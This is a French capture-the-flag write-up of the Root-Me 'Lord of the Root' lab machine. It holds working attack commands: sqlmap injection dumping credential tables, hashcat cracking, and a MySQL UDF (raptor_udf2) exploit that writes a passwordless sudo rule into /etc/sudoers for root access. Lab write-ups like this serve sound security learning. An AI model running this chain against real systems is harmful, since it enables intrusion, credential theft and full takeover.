# Lord of the Root

## Description
Partez à la recherche du précieux en élevant vos privilèges.

---

## Étape 1 : Scan du challenge avec Nmap

Tout d'abord, je scanne le challenge avec Nmap :

```
nmap -sT -sV -T4 -O -p- ctf02.root-me.org
```

**Légende :**
- `-sT` : Scan TCP connect
- `-sV` : Détecte les versions des services
- `-T4` : Augmente la vitesse du scan
- `-O` : Détecte le système d'exploitation
- `-p-` : Scanne tous les ports

Je vois en réponse les ports suivants :
```
22/tcp open     ssh
1337/tcp open   http Apache httpd 2.4.7 ((Ubuntu))
```
 

Je me rends donc sur la page et cherche une suite de fichiers. J'essaie d'abord des chemins comme `/assets/`, `robots.txt`, `../` mais rien ne fonctionne. Je passe ensuite à DirBuster 

 

et trouve le répertoire `/icon/`.

 

---

## Étape 2 : Découverte du fichier caché

À partir de `/icon/`, j'obtiens ce code HTML :
 
```
<html>

<!--THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh-->
</html>
```

Le commentaire ressemble à du Base64, donc je décide de le décoder :
```
echo "THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh" | base64 -d
```
Cela me donne :
```
Lzk3ODM0NTIxMC9pbmRleC5waHA=
```
Je décode à nouveau cette chaîne pour obtenir :
```
/978345210/index.php
```
Je rajoute cela à l'URL et je me retrouve sur un champ de connexion.
 
---

## Étape 3 : Exploitation avec SQL Injection

### 1er payload SQLMap

Je commence par utiliser SQLMap pour trouver des informations dans la base MySQL :
 
```
sqlmap -o -u "http://212.83.175.116:1337/978345210/index.php" --forms -D mysql -T user -C User,Password --dump
```

**Légende :**
- `-o` : Active les options optimisées
- `-u` : Spécifie l'URL à tester
- `--forms` : Détecte et exploite les formulaires
- `-D mysql` : Cible la base de données `mysql`
- `-T user` : Cible la table `user`
- `-C User,Password` : Extrait les colonnes `User` et `Password`
- `--dump` : Affiche le contenu

SQLMap trouve un champ de mot de passe vulnérable à l'injection SQL. Voici les informations extraites :
```
+------------------+--------------------------------------------------------+
| User             | Password                                               |
+------------------+--------------------------------------------------------+
| debian-sys-maint | *A55A9B9049F69BC2768C9284615361DFBD580B34              |
| root             | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root             | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root             | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root             | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
+------------------+--------------------------------------------------------+

```

J'utilise ensuite Hashcat pour cracker le hash avec la wordlist `rockyou.txt` :
```
hashcat -m 300 mysql-hashes.txt /usr/share/wordlists/rockyou.txt
```
**Légende :**
- `-m 300` : Spécifie le mode pour MySQL

Le mot de passe trouvé est :
```
4dd56158acdba81bfe3ff9d3d7375231596ce10f:darkshadow
```
Ho la fête
---

## Étape 4 : Accès SSH

### 2ème payload SQLMap

Ensuite, j'exploite un autre champ vulnérable pour récupérer les identifiants SSH :
```
sqlmap -u http://212.129.28.21:1337/978345210/index.php --method POST --data "username=aaaaaaa&password=bbb&submit=+Login+" --not-string="Username or Password is invalid" -D Webapp -T Users --dump
```

SQLMap extrait la table `Users` de la base `Webapp` :
 
```
+----+----------+------------------+
| id | username | password         |
+----+----------+------------------+
| 1  | frodo    | iwilltakethering |
| 2  | smeagol  | MyPreciousR00t   |
| 3  | aragorn  | AndMySword       |
| 4  | legolas  | AndMyBow         |
| 5  | gimli    | AndMyAxe         |
+----+----------+------------------+
```
Ducoup je le passe sur la page de login:
 

Je me connecte via SSH avec `smeagol` (il n'y avait que lui qui marchait):
```
ssh smeagol@[ip]
```
 
Une fois connecté apres beaucoup de recherche je constate que MySQL tourne en root.
 

---

## Étape 5 : Exploitation du MySQL

MySQL, lorsqu'il tourne avec des privilèges root, peut être exploité pour exécuter du code arbitraire en injectant une bibliothèque malveillante. Ici, j'utilise une vieille faille bien connue sur les forums paumé concernant une **User-Defined Function (UDF)** malveillante nommée `raptor_udf2.c`.


### 1. Compilation de la bibliothèque malveillante  
L'objectif est de créer une bibliothèque dynamique que MySQL pourra charger et exécuter comme une fonction système. Pour cela, on compile `raptor_udf2.c` :

```
gcc -g -c raptor_udf2.c
gcc -g -shared -o raptor_udf2.so raptor_udf2.o -lc
```
### Explication des commandes :

- `gcc -g -c raptor_udf2.c` → Compile le fichier source `raptor_udf2.c` en un objet `.o` sans l'assembler.
- `gcc -g -shared -o raptor_udf2.so raptor_udf2.o -lc` → Crée une bibliothèque partagée `.so` à partir du fichier `.o`, indispensable pour être chargée par MySQL.

---

### 2. Injection de la bibliothèque dans MySQL  
Une fois la bibliothèque compilée, je l’injecte dans la base de données pour l'utiliser en tant que fonction :

```
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
```

### Explication des commandes :

- `use mysql;` → Sélectionne la base de données système MySQL.
- `create table foo(line blob);` → Crée une table temporaire pour stocker la bibliothèque.
- `insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));` → Charge la bibliothèque depuis mon répertoire personnel vers MySQL.
- `select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';` → Copie le contenu dans le dossier des plugins MySQL.
- `create function do_system returns integer soname 'raptor_udf2.so';` → Déclare une nouvelle fonction MySQL appelée `do_system`, qui permettra d'exécuter des commandes système.

---

### 3. Exécution de commandes en root  
Maintenant que la fonction `do_system` est disponible, je peux exécuter des commandes système directement depuis MySQL.  
Pour obtenir un accès root persistant, je modifie le fichier `sudoers` :

```
mysql> select do_system('echo "smeagol ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers');
```
### Explication :

select do_system(...) → Utilise ma fonction malveillante pour exécuter une commande système.
echo "smeagol ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers → Ajoute une ligne dans le fichier sudoers, permettant à l'utilisateur smeagol d'exécuter toutes les commandes en root sans mot de passe.

### 🎯 Résultat :

Après cette manipulation, smeagol peut désormais exécuter sudo sans restriction, me donnant un accès root total sur la machine. 🚀

---

## Étape 6 : Gain de privilèges

Je lance un shell root avec `sudo` :
```
sudo bash
```

Puis je consulte le fichier flag :
```
cat .password
```

Le contenu est :
```
b420327d560bf5eac18330cd48e7dc45
```
Et c'est notre flag

---

## Conclusion
J'ai réussi à obtenir les privilèges root et à récupérer la flag en exploitant une injection SQL et une vulnérabilité MySQL. 🎉

